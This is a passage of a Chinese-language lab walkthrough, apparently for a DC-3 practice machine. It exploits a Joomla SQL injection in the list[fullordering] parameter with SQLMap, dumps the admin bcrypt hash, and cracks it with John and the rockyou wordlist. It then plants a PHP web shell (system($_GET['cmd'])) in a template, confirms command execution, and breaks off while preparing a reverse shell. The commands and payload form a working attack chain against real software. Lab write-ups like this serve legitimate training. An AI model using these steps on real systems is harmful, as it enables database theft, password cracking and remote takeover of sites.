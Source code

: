 ```bash

综上所述，这条命令的目的是使用 SQLMap 对指定 URL 中的 `list[fullordering]` 参数进行深度的 SQL 注入测试，
尝试发现目标系统中的数据库列表
```
![8](/assets/8.png)

```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables

Desc:
利用已经查到的 joomladb库名 来查表信息
```

```bash
sqlmap -u "http://192.168.197.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
遇到问题直接按y
Desc:
脱裤！账户密码如下
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑

```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt

Desc:
先把密码写入到hash.txt,再使用指定的字典来爆破
```
![9](/assets/9.png)


ok,跑出密码 `snoopy`
`http://192.168.197.147/administrator/index.php` 登录



是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.197.147/administrator/index.php?option=com_templates&view=templates`



这里随便找一个模板

到 index.php 里加点代码

```php
system($_GET['cmd']);
```
![10](/assets/10_10d1au283.png)

尝试访问模板预览 `http://192.168.197.147/index.php?tp=1&templateStyle=4&cmd=whoami`
可以看到命令执行成功了 是www-data用户
![11](/assets/11.png)
ok，命令成功执行，下面直接准备回弹 shell
到 index.php 里加个一句话
